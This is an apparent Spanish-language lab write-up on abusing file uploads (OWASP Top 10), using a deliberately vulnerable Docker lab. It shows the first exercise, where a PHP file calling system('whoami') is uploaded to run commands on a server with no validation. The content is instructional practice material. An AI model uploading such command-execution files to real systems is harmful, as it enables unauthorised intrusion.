 ```yaml
---
title: "[Lab] Abuso de subidas de archivos"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, subida de archivo]
img:
  path: /assets/OWASP-TOP-10/Abuso de subidas de archivos/subidadearchivos.png
---
```



# Abuso de subidas de archivos


### Más info:

- Links
    
    Hacktricks - (”[https://book.hacktricks.xyz/pentesting-web/file-upload](https://book.hacktricks.xyz/pentesting-web/file-upload)”)
    
    Th1b4ud - (”[https://thibaud-robin.fr/articles/bypass-filter-upload/](https://thibaud-robin.fr/articles/bypass-filter-upload/)”)
    
    Wikipedia - (”[https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)”)
    

## Instalación

```bash
git clone https://github.com/moeinfatehi/file_upload_vulnerability_scenarios
cd file_upload_vulnerability_scenarios
docker-compose up -d
```

# Explotación

## Upload #1 - Sin validación

![Untitled](../assets/OWASP-TOP-10/Abuso de subidas de archivos/Untitled.png)

Este primer ejercicio es simple ya que no hay ningún tipo de validación y se puede subir un archivo .php para ejecutar comandos.

```bash
<?php
	system("whoami");
?>
```

A la hora de subir el archivo, hay que darle a mostrar todos los archivos para ver el archivo “.php” y así con todos los demás ejercicios.
